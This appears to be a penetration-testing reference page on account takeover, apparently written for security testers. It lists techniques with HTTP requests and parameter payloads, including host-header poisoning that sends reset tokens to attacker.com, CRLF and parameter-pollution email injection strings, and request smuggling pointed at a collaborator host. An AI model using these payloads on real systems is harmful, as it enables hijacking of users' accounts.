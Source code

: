 # Account Takeover

## Summary

* [Password Reset Feature](#password-reset-feature)
    * [Password Reset Token Leak Via Referrer](#password-reset-token-leak-via-referer)
    * [Account Takeover Through Password Reset Poisoning](#account-takeover-through-password-reset-poisoning)
    * [Password Reset Via Email Parameter](#password-reset-via-email-parameter)
    * [IDOR on API Parameters](#idor-on-api-parameters)
    * [Weak Password Reset Token](#weak-password-reset-token)
* [Account Takeover Via Cross Site Scripting](#account-takeover-via-cross-site-scripting)
* [Account Takeover Via HTTP Request Smuggling](#account-takeover-via-http-request-smuggling)
* [References](#references)

## Password Reset Feature

### Password Reset Token Leak Via Referrer

1. Request password reset to your email address
2. Click on the password reset link
3. Dont change password
4. Click any 3rd party websites(eg: Facebook, twitter)
5. Intercept the request in Burp Suite proxy
6. Check if the referer header is leaking password reset token.

### Account Takeover Through Password Reset Poisoning

1. Intercept the password reset request in Burp Suite
2. Add or edit the following headers in Burp Suite : `Host: attacker.com`, `X-Forwarded-Host: attacker.com`
3. Forward the request with the modified header
    ```http
    POST https://example.com/reset.php HTTP/1.1
    Accept: */*
    Content-Type: application/json
    Host: attacker.com
    ```
4. Look for a password reset URL based on the *host header* like : `https://attacker.com/reset-password.php?token=TOKEN`


### Password Reset Via Email Parameter

```powershell
# parameter pollution
email=victim@mail.com&email=hacker@mail.com

# array of emails
{"email":["victim@mail.com","hacker@mail.com"]}

# carbon copy
email=victim@mail.com%0A%0Dcc:hacker@mail.com
email=victim@mail.com%0A%0Dbcc:hacker@mail.com

# separator
email=victim@mail.com,hacker@mail.com
email=victim@mail.com%20hacker@mail.com
email=victim@mail.com|hacker@mail.com
```

### IDOR on API Parameters

1. Attacker have to login with their account and go to the **Change password** feature.
2. Start the Burp Suite and Intercept the request
3. Send it to the repeater tab and edit the parameters
    ```powershell
    POST /api/changepass
    [...]
    ("form": {"email":"victim@email.com","password":"securepwd"})
    ```

### Weak Password Reset Token

The password reset token should be randomly generated and unique every time.
Try to determine if the token expire or if it's always the same, in some cases the generation algorithm is weak and can be guessed. The following variables might be used by the algorithm.

* Timestamp
* UserID
* Email of User
* Firstname and Lastname
* Date of Birth
* Cryptography
* Number only
* Small token sequence (<6 characters between [A-Z,a-z,0-9])
* Token reuse
* Token expiration date

## Account Takeover Via Cross Site Scripting

1. Find an XSS inside the application or a subdomain if the cookies are scoped to the parent domain : `*.domain.com`
2. Leak the current **sessions cookie**
3. Authenticate as the user using the cookie

## Account Takeover Via HTTP Request Smuggling

Refer to **HTTP Request Smuggling** vulnerability page.
1. Use **smuggler** to detect the type of HTTP Request Smuggling (CL, TE, CL.TE)
    ```powershell
    git clone https://github.com/defparam/smuggler.git
    cd smuggler
    python3 smuggler.py -h
    ```
2. Craft a request which will overwrite the `POST / HTTP/1.1` with the following data:
    ```powershell
    GET http://something.burpcollaborator.net  HTTP/1.1
    X: 
    ```
3. Final request could look like the following
    ```powershell
    GET /  HTTP/1.1
    Transfert-Encoding: chunked
    Host: something.com
    User-Agent: Smuggler/v1.0
    Content-Length: 83

    0

    GET http://something.burpcollaborator.net  HTTP/1.1
    X: X
    ```

Hackerone reports exploiting this bug
* https://hackerone.com/reports/737140
* https://hackerone.com/reports/771666


## References

- [10 Password Reset Flaws - Anugrah SR](http://anugrahsr.me/posts/10-Password-reset-flaws/)
- [$6,5k + $5k HTTP Request Smuggling mass account takeover - Slack + Zomato - Bug Bounty Reports Explained](https://www.youtube.com/watch?v=gzM4wWA7RFo&feature=youtu.be)
